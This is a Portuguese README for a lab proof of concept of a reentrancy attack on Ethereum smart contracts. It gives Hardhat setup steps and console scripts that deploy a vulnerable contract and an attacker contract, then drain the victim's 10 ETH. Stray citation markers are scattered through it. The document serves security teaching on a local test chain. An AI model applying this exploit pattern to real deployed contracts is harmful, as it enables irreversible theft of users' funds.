 # Prova de Conceito (PoC): Ataque de Reentrancy em Smart Contract

[cite_start]Este repositório contém o código-fonte e a explicação para uma Prova de Conceito (PoC) da vulnerabilidade de **Reentrancy** em Smart Contracts, com base na apresentação "Pentest em Blockchain: Reentrancy"[cite: 1].

---

## ⚠️ AVISO LEGAL DE USO

**Este projeto é estritamente para fins educacionais e de pesquisa em cibersegurança.**

Não me responsabilizo pelo mau uso de qualquer informação aqui contida. O uso de ferramentas para atacar alvos sem autorização prévia é ilegal. **Use apenas em ambientes de laboratório controlados.**

---

## 1. Sobre a Vulnerabilidade: Reentrancy

### O que é?
[cite_start]A Reentrancy (ou Reentrância) é uma das vulnerabilidades mais conhecidas e devastadoras em Smart Contracts[cite: 76].

[cite_start]Ela ocorre quando um contrato externo (Atacante) consegue chamar repetidamente uma função em um contrato (Vítima) *antes* que a primeira invocação dessa função tenha seu estado atualizado[cite: 77].

Em termos simples, o contrato do atacante "re-entra" na função de saque (`withdraw`) várias vezes antes que o contrato da vítima possa atualizar o saldo do atacante para zero.

### Por que é Crítico?
A exploração bem-sucedida dessa falha geralmente permite que um atacante **drene completamente os fundos** (ETH ou outros tokens) de um contrato vulnerável.

* [cite_start]Ataques em blockchain são **irreversíveis**[cite: 28].
* [cite_start]Perdas financeiras podem chegar a centenas de milhões de dólares, como visto em ataques históricos[cite: 7, 8].

---

## 2. Setup do Laboratório (Ambiente Hardhat)

Para recriar o cenário de ataque, usamos o [Hardhat](https://hardhat.org/), um ambiente de desenvolvimento e testes para Ethereum.

### Pré-requisitos
* [Node.js](https://nodejs.org/en) (versão 18 ou superior)
* Dois contratos (Solidity):
    1.  `ReentrancyVictim.sol` (O contrato vulnerável)
    2.  `ReentrancyAttack.sol` (O contrato do atacante)

### Passos para Configuração

1.  **Clone este repositório (ou crie um novo projeto):**
    ```bash
    git clone [SEU_REPO_URL]
    cd [NOME_DA_PASTA]
    ```

2.  **Inicie um projeto Hardhat e instale as dependências:**
    ```bash
    npm init -y
    npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox @nomiclabs/hardhat-ethers ethers
    ```
    *Selecione "Create a JavaScript project" quando o `npx hardhat` perguntar.*

3.  **Adicione os contratos:** Coloque os arquivos `ReentrancyVictim.sol` e `ReentrancyAttack.sol` na pasta `/contracts` do seu projeto.

4.  **Inicie um nó local do Hardhat:**
    [cite_start]Este comando inicia uma blockchain local para testes, já com várias contas pré-carregadas com 10000 ETH de teste [cite: 98, 102-117].
    ```bash
    npx hardhat node
    ```

5.  **Abra o console do Hardhat:**
    Em **outro terminal**, conecte-se ao seu nó local:
    ```bash
    npx hardhat console --network localhost
    ```

Você está pronto para executar o exploit.

---

## 3. Executando o Exploit

O ataque é dividido em duas fases. **Copie e cole** os blocos de código abaixo diretamente no seu console do Hardhat (que você abriu no passo 5).

### Fase 1: Deploy do Contrato Vítima e Depósito Inicial

Primeiro, publicamos o contrato da vítima e depositamos 10 ETH nele, simulando um "banco" com fundos.

```javascript
/* === FASE 1: DEPLOY DA VÍTIMA === */
console.log("Iniciando Fase 1: Deploy do contrato Vítima...");

// Pega as contas de teste. 'deployer' é a vítima, 'attackerEOA' é o atacante
const [deployer, attackerEOA] = await ethers.getSigners();

// Prepara o contrato da Vítima
const Victim = await ethers.getContractFactory("ReentrancyVictim");
const victim = await Victim.deploy();
await victim.waitForDeployment();
const victimAddr = victim.target || victim.address;

console.log("Contrato Vítima ('Victim') publicado em:", victimAddr);

// A Vítima (deployer) deposita 10 ETH no contrato
const txDep = await victim.connect(deployer).deposit({ value: ethers.parseEther("10") });
await txDep.wait();

console.log("Depósito de 10 ETH realizado. Hash:", txDep.hash);

// Verifica o saldo do contrato da Vítima
const victimBalance = ethers.formatEther(await ethers.provider.getBalance(victimAddr));
console.log("SALDO VÍTIMA (Antes do Ataque):", victimBalance, "ETH");
[cite_start]// Resultado esperado: 10.0 ETH [cite: 198]
```

### Fase 2: Deploy do Contrato Atacante e Exploração

Agora, publicamos o contrato do atacante e iniciamos o ataque de reentrância.

```javascript
/* === FASE 2: DEPLOY DO ATACANTE E EXPLORAÇÃO === */
console.log("\nIniciando Fase 2: Deploy do contrato Atacante...");

// Prepara o contrato do Atacante, fornecendo o endereço da Vítima
const Att = await ethers.getContractFactory("ReentrancyAttack");
const attacker = await Att.connect(attackerEOA).deploy(victimAddr);
await attacker.waitForDeployment();
const attackerAddr = attacker.target || attacker.address;

console.log("Contrato Atacante ('Attacker') publicado em:", attackerAddr);

// Verifica saldos ANTES do ataque
console.log("SALDO ATACANTE (Contrato) (Antes do Ataque):", ethers.formatEther(await ethers.provider.getBalance(attackerAddr)));
[cite_start]// Resultado esperado: 0.0 ETH [cite: 236]

console.log("\n>>> EXECUTANDO ATAQUE DE REENTRANCY...");

// Atacante inicia o ataque enviando 1 ETH para a função 'attack'
const attackTx = await attacker.connect(attackerEOA).attack({ value: ethers.parseEther("1") });
const receipt = await attackTx.wait();

console.log("Ataque concluído. Hash:", attackTx.hash);
[cite_start]console.log("Status da Tx:", receipt.status, "| Gas Usado:", receipt.gasUsed.toString()); [cite: 241]

/* === RESULTADOS FINAIS === */
console.log("\n--- RESULTADOS PÓS-ATAQUE ---");

const finalVictimBalance = ethers.formatEther(await ethers.provider.getBalance(victimAddr));
const finalAttackerContractBalance = ethers.formatEther(await ethers.provider.getBalance(attackerAddr));
const finalAttackerEOABalance = ethers.formatEther(await ethers.provider.getBalance(attackerEOA.address));

console.log("SALDO VÍTIMA (Depois do Ataque):", finalVictimBalance, "ETH");
[cite_start]// Resultado esperado: 0.0 ETH [cite: 244]

console.log("SALDO ATACANTE (Contrato) (Depois do Ataque):", finalAttackerContractBalance, "ETH");
[cite_start]// Resultado esperado: 11.0 ETH (10 ETH da Vítima + 1 ETH do Atacante) [cite: 245]

console.log("SALDO ATACANTE (Carteira Pessoal):", finalAttackerEOABalance, "ETH");
[cite_start]// Resultado esperado: (Um pouco menos de 9999 ETH, devido ao gas) [cite: 248]
```

## 4. Conclusão

Se os logs de "Resultados Finais" baterem com o esperado (Vítima com 0.0 ETH e Contrato Atacante com 11.0 ETH), o ataque de Reentrancy foi executado com sucesso, e os fundos foram drenados.
